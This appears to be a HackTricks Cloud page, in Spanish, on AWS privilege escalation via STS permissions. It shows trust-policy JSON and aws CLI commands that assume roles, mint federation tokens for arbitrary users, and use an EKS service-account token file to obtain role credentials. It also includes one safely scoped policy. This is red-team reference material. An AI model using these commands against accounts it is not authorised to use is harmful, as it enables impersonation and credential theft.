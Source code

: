 # AWS - STS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## STS

### `sts:AssumeRole`

Cada rol se crea con una **política de confianza del rol**, esta política indica **quién puede asumir el rol creado**. Si un rol de la **misma cuenta** dice que una cuenta puede asumirlo, significa que la cuenta podrá acceder al rol (y potencialmente **privesc**).

Por ejemplo, la siguiente política de confianza del rol indica que cualquiera puede asumirlo, por lo tanto **cualquier usuario podrá privesc** a los permisos asociados con ese rol.
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
Puedes suplantar un rol ejecutando:
```bash
aws sts assume-role --role-arn $ROLE_ARN --role-session-name sessionname
```
**Impacto Potencial:** Privesc al rol.

{% hint style="danger" %}
Tenga en cuenta que en este caso el permiso `sts:AssumeRole` debe ser **indicado en el rol a abusar** y no en una política perteneciente al atacante.\
Con una excepción, para **asumir un rol de una cuenta diferente** la cuenta del atacante **también necesita** tener el **`sts:AssumeRole`** sobre el rol.
{% endhint %}

### **`sts:GetFederationToken`**

Con este permiso es posible generar credenciales para suplantar a cualquier usuario:
```bash
aws sts get-federation-token --name <username>
```
Esta es la forma en que se puede otorgar este permiso de manera segura sin dar acceso para suplantar a otros usuarios:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "VisualEditor0",
"Effect": "Allow",
"Action": "sts:GetFederationToken",
"Resource": "arn:aws:sts::947247140022:federated-user/${aws:username}"
}
]
}
```
### `sts:AssumeRoleWithSAML`

Una política de confianza con este rol otorga **a los usuarios autenticados a través de SAML acceso para suplantar el rol.**

Un ejemplo de una política de confianza con este permiso es:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "OneLogin",
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::290594632123:saml-provider/OneLogin"
},
"Action": "sts:AssumeRoleWithSAML",
"Condition": {
"StringEquals": {
"SAML:aud": "https://signin.aws.amazon.com/saml"
}
}
}
]
}
```
Para generar credenciales para suplantar el rol, en general podrías usar algo como:
```bash
aws sts  assume-role-with-saml --role-arn <value> --principal-arn <value>
```
Pero **los proveedores** pueden tener **sus propias herramientas** para facilitar esto, como [onelogin-aws-assume-role](https://github.com/onelogin/onelogin-python-aws-assume-role):

{% code overflow="wrap" %}
```bash
onelogin-aws-assume-role --onelogin-subdomain mettle --onelogin-app-id 283740 --aws-region eu-west-1 -z 3600
```
{% endcode %}

**Impacto Potencial:** Privesc al rol.

### `sts:AssumeRoleWithWebIdentity`

Este permiso otorga la capacidad de obtener un conjunto de credenciales de seguridad temporales para **usuarios que han sido autenticados en una aplicación móvil, web, EKS...** con un proveedor de identidad web. [Aprende más aquí.](https://docs.aws.amazon.com/STS/latest/APIReference/API\_AssumeRoleWithWebIdentity.html)

Por ejemplo, si una **cuenta de servicio de EKS** debería poder **suplantar un rol de IAM**, tendrá un token en **`/var/run/secrets/eks.amazonaws.com/serviceaccount/token`** y puede **asumir el rol y obtener credenciales** haciendo algo como:

{% code overflow="wrap" %}
```bash
aws sts assume-role-with-web-identity --role-arn arn:aws:iam::123456789098:role/<role_name> --role-session-name something --web-identity-token file:///var/run/secrets/eks.amazonaws.com/serviceaccount/token
# The role name can be found in the metadata of the configuration of the pod
```
{% endcode %}

### Abuso de Federación

{% content-ref url="../aws-basic-information/aws-federation-abuse.md" %}
[aws-federation-abuse.md](../aws-basic-information/aws-federation-abuse.md)
{% endcontent-ref %}

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}

